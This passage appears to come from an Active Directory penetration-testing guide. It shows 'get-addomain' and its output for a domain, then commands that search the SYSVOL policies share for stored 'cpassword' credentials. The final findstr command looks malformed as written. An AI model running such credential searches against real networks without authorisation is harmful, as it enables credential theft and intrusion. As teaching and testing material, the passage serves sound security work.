 

This is the easiest technique, and the one that should be tried first.

First you need to find out which domain your user belongs to. You can do that by using the powershell Active directory module. If you do not have that module. See the helper-section to find out how to get it. You can do that with the following command:

```powershell
get-addomain
```

```
AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=hackdomain,DC=local
DeletedObjectsContainer            : CN=Deleted Objects,DC=hackdomain,DC=local
DistinguishedName                  : DC=hackdomain,DC=local
DNSRoot                            : hackdomain.local
DomainControllersContainer         : OU=Domain Controllers,DC=hackdomain,DC=local
DomainMode                         : Windows2012R2Domain
DomainSID                          : S-1-5-21-2900359584-3137434808-3022034389
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=hackdomain,DC=local
Forest                             : hackdomain.local
InfrastructureMaster               : DC1337.hackdomain.local
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=hackdomain,DC=local}
LostAndFoundContainer              : CN=LostAndFound,DC=hackdomain,DC=local
ManagedBy                          :
Name                               : hackdomain
NetBIOSName                        : HACKDOMAIN
ObjectClass                        : domainDNS
ObjectGUID                         : 176ed6af-a390-40f4-bbc2-e6f581089e90
ParentDomain                       :
PDCEmulator                        : DC1337.hackdomain.local
QuotasContainer                    : CN=NTDS Quotas,DC=hackdomain,DC=local
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {DC1337.hackdomain.local}
RIDMaster                          : DC1337.hackdomain.local
SubordinateReferences              : {DC=ForestDnsZones,DC=hackdomain,DC=local, DC=DomainDnsZones,DC=hackdomain,DC=loca
l, CN=Configuration,DC=hackdomain,DC=local}
SystemsContainer                   : CN=System,DC=hackdomain,DC=local
UsersContainer                     : CN=Users,DC=hackdomain,DC=local
```

So you can clearly see `hackdomain.local` references everywhere. This is the domain-name.

You can now go to `\\hackdomain.local\SYSVOL\hackdomain.local\policies` and search for passwords there. You can either go with the explorer or with powershell.

```powershell
cd \\hackdomain.local\SYSVOL
findstr /r /s:cpassword 
```
